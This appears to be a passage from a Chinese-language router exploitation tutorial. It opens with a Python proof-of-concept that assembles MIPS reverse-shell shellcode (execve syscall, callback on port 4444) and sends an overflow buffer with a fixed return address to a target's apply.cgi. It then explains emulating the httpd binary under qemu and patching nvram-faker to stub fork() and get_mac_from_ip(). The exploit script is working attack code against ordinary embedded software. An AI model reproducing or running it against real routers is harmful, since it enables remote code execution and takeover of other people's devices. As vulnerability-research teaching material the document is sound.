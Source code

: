 ```python
    mipselshell+="\xf8\xff\xa5\x27"   # addiu a1,sp,-8
    mipselshell+="\xab\x0f\x02\x24"   # li v0,4011 # sys_execve
    mipselshell+="\x0c\x01\x01\x01"  # syscall 0x40404
    print 'ending ...'
    return mipselshell 
try:
    target = sys.argv[1]
except:
    print "Usage: %s <target>" % sys.argv[0]
    sys.exit(1) 
url = "http://%s/apply.cgi" % target
sip='127.0.0.1'     #reverse_tcp local_ip
sport = 4444            #reverse_tcp local_port
#DataSegSize = 0x4000
host=socket.ntohl(struct.unpack('<I',socket.inet_aton(sip))[0])
payload = makepayload(host,sport)
addr = struct.pack("<L",0x10001AD8)
#DataSegSize = 0x4000
#buf = "\x00"*(10000-len(payload))+payload+addr*(DataSegSize/4)
buf = "\x00"*(10000-len(payload))+payload+addr*(36616/4+1)
req = urllib2.Request(url, buf)
print urllib2.urlopen(req).read()
```

由于没有真机，只能通过模拟来进行调试。模拟过程中需要出现nvram错误，由于这里是模拟环境，没有nvram环境，所以需要修复nvram环境。

```sh
$ sudo chroot . ./qemu ./usr/sbin/httpd
/dev/nvram: No such file or directory
/var/run/httpd.pid: No such file or directory
```

下载编译nvram-faker进行修复

```sh
git clone https://github.com/zcutlip/nvram-faker.git
```

在nvram-faker中提供了劫持`nvram_get()` 函数的方法，为了让程序运行，还需要劫持一个函数`get_mac_from_ip(const char*ip)`，为了方便使用IDA或者GDB调试，我们把`fork()`函数一并劫持，否则`fork()`函数产生的多进程会让调试过程异常复杂。修改在nvram-faker.c和nvram-faker.h中分别增加下面的代码

```c
#nvram-faker.c
int fork(void)
{
        return 0;
}
char *get_mac_from_ip(const char*ip)
{
        char mac[]="00:50:56:C0:00:08";
        char *rmac = strdup(mac);
        return rmac;
}
#nvram-faker.h
char *get_mac_from_ip(const char*ip);
int fork(void);
```

